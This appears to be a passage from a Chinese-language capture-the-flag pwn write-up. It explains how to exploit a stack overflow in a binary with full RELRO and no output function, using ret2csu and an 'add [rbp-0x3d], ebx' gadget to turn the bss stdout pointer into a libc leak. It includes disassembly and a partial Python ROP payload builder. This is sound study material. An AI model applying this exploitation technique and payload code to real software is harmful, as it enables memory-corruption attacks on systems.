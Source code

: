 没有输出函数，开启了 full relro，只有一个孤零零的栈溢出

这样似乎陷入了一个困境，没有输出函数就无法泄露 libc 地址，full relro 又无法利用 ret2dlsolve，这对于一些 pwn 栈漏洞知识掌握不深的师傅（没错就是我）似乎就没办法进行攻击了，后来经过其他师傅提醒到了这个 magic\_gadget

#### 利用思路

虽然 got 表是不可写了，但是并不意味着其他地方就不储存函数地址了，比如在 bss 段上就储存了一些地址

```bash
bss:0000000000601020                               public stdout@@GLIBC_2_2_5
.bss:0000000000601020                               ; FILE *stdout
.bss:0000000000601020 ?? ?? ?? ?? ?? ?? ?? ??       stdout@@GLIBC_2_2_5 dq ?                ; DATA XREF: LOAD:00000000004003C8↑o
.bss:0000000000601020                                                                       ; main+46↑r
.bss:0000000000601020                                                                       ; Alternative name is 'stdout'
.bss:0000000000601020                                                                       ; Copy of shared data
.bss:0000000000601028 ?? ?? ?? ?? ?? ?? ?? ??       align 10h
.bss:0000000000601030                               public stdin@@GLIBC_2_2_5
.bss:0000000000601030                               ; FILE *stdin
.bss:0000000000601030 ?? ?? ?? ?? ?? ?? ?? ??       stdin@@GLIBC_2_2_5 dq ?                 ; DATA XREF: LOAD:0000000000400410↑o
.bss:0000000000601030                                                                       ; main+28↑r
.bss:0000000000601030                                                                       ; Alternative name is 'stdin'
```

还有 gadget

```bash
0x00000000004007e8 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
```

那么我们的思路就是利用 ret2csu 和 magic\_gadget 将 stdout 改成一个输出函数的地址进行调用就可以泄露 libc 了

题目给了 libc 版本为 2.27，可以利用 libc 文件查找相对偏移

构造如下

```bash
def csu(rbx, rbp, r12, r15, r14, r13, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call()
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    # csu(0, 1, fun_got, rdx, rsi, rdi, last)
​    payload = ""
​    payload += p64(csu_end_addr) 
​    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
​    payload += p64(csu_front_addr)
​    payload += p64(0)+p64(0xffffffffffd24620-0xd80+0xf0)+p64(0x601020+0x3d)+p64(read_got)*4
​    payload += p64(last)   
​    return payload

pl=p64(read_got)*8+p64(bss)
pl+=csu(0, 1, read_got, 0x100, elf.bss()+0x100, 0,magic_gadget)+p64(0x400788)+p64(elf.bss()+0x300)+p64(0x4008DC)
```
